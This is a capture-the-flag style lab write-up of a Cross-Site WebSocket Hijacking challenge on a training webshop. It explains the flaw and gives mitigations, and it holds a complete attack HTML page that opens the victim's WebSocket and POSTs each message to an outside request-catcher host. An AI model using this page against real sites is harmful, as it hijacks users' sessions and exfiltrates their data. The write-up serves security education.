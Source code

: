 # Cowbell Shop 4 - CSWSH

## Challenge

Hijack another user WebSocket connection with an CSRF attack.

## Answer

### Explain the security problem 

* Web Sockets do not adhere to the same origin policy
* Any domain can open a web socket connection to another domain and send/receive data

### Explain your attack. \(exploit, screenshot, hacking journal\)  

Step 1-3\) Setup Hacking-Environment.  Open a Request Catcher and Theia Web IDE

Step 4\)  Changed the `change_me.html` file to:

{% code title="change\_me.html" %}
```markup
<!DOCTYPE html>
<html lang="en">
  <head>
    <meta charset="UTF-8" />
    <title>CSWSH</title>
  </head>
  <body>
    <h1>CSWSH</h1>
    <p>You got hacked!</p>
    <script type="text/javascript">
      var socket = new WebSocket(
        "wss://1b747ea1-3a09-4acc-8d8a-031e2fd2e267.idocker.vuln.land/socket.io/?EIO=3&transport=websocket"
      );
      socket.onopen = function(openEvent) {
        console.log(openEvent);
      };
      socket.onmessage = function(msgEvent) {
        console.log(msgEvent.data);
        var oReq = new XMLHttpRequest();
        oReq.open(
          "POST",
          "https://9a471a99-a077-47e4-a454-f7e6676acc1f.idocker.vuln.land/extractedData"
        );
        oReq.send(JSON.stringify(msgEvent.data));
      };
      socket.onerror = function(errEvent) {
        console.log(errEvent);
      };
    </script>
  </body>
</html>
```
{% endcode %}

Step 5\) Open webshop in new Incognito Tab and login in as the attacker

Step 6\) Pass the attackers url `https://16dfe2ff-d02a-4a24-8d06-21e07055a9af.idocker.vuln.land/change_me.html`  to the victim. Victim opens the url and gets the following output:  


![](../../.gitbook/assets/image%20%28376%29.png)

![](../../.gitbook/assets/image%20%28377%29.png)

Step 8\) check in the Request Catcher logs the flag received from the victim

![](../../.gitbook/assets/image%20%28380%29.png)



### Explain mitigation \(remedy\)

* Check the Origin header of the WebSocket handshake request on the server, since that header was designed to protect the server against attacker-initiated cross-site connections of victim browsers!
* Use **session-individual random tokens \(like CSRF-Tokens\)** on the handshake request and verify them on the server.
  * Embed the token into one of the HTML pages of your web application.
  * Create a REST endpoint where your client can fetch the token



### Answers

#### Are the CORS errors a problem for the attacker?

No, since WebSockets are not subordinated to CORS 

#### Explain the meaning of the errors

The access to the `/extractedData` target site from the `origin` is not allowed, since there is not Acces-Control-Allow-Origin HTTP Response Header present on the target site and therefore it violates the CORS policy

#### How do we mitigate the risk of a web socket based XSRF attack?

See above \(CSRF-Tokens with validation on server\)


